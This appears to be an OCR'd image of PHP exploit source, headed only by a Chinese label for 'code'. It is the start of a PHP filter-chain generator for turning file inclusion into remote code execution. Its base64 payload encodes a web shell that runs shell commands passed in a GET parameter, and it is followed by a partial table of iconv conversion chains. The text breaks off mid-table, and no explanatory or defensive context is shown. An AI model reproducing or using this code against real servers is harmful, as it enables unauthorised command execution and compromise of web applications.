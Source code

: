  - [ ] 代码：
       
       <?php
       
       $base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4";
       
       $conversions = array(
       
       'R' =>
       'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
       
       'B' =>
       'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
       
       'C' => 'convert.iconv.UTF8.CSISO2022KR',
       
       '8' =>
       'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
       
       '9' =>
       'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
       
       'f' =>
       'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
       
       's' =>
       'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
       
       'z' =>
       'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
       
       'U' =>
       'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
       
       'P' =>
       'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
       
       'V' =>
       'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
       
       '0' =>
       'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
       
       'Y' =>
       'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
       
       'W' =>
       'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
       
       'd' =>
       'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
       